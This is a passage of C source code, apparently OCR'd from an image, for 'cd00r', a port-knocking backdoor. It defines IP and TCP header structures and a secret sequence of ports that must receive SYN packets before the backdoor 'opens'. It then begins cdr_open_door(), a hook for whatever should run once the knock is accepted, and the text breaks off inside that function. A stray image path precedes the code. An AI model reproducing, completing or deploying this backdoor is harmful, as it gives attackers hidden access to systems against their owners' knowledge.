 #include <pcap.h>
#include <net/bpf.h>

#define ETHLENGTH 	14
#define IP_MIN_LENGTH 	20
#define CAPLENGTH	98



struct iphdr {
        u_char  ihl:4,        /* header length */
        version:4;              /* version */
        u_char  tos;          /* type of service */
        short   tot_len;      /* total length */
        u_short id;           /* identification */
        short   off;          /* fragment offset field */
        u_char  ttl;          /* time to live */
        u_char  protocol;     /* protocol */
        u_short check;        /* checksum */
        struct  in_addr saddr;
	struct  in_addr daddr;  /* source and dest address */
};

struct tcphdr {
        unsigned short int 	src_port;
	unsigned short int 	dest_port;
        unsigned long int 	seq_num;
        unsigned long int 	ack_num;
	unsigned short int	rawflags;
        unsigned short int 	window;
        long int 		crc_a_urgent;
        long int 		options_a_padding;
};

/* the ports which have to be called (by a TCP SYN packet), before
 * cd00r opens 
 */
unsigned int 	cports[] = CDR_PORTS;
int		cportcnt = 0;
/* which is the next required port ? */
int		actport = 0;

#ifdef CDR_SENDER_ADDR
/* some times, looking at sender's address is desired.
 * If so, sender's address is saved here */
struct in_addr	sender;
#endif CDR_SENDER_ADDR

/********
 * cdr_open_door() is called, when all port codes match
 * This function can be changed to whatever you like to do when the system
 * accepts the code 
 ********/
void cdr_open_door(void) {
    FILE	*f;
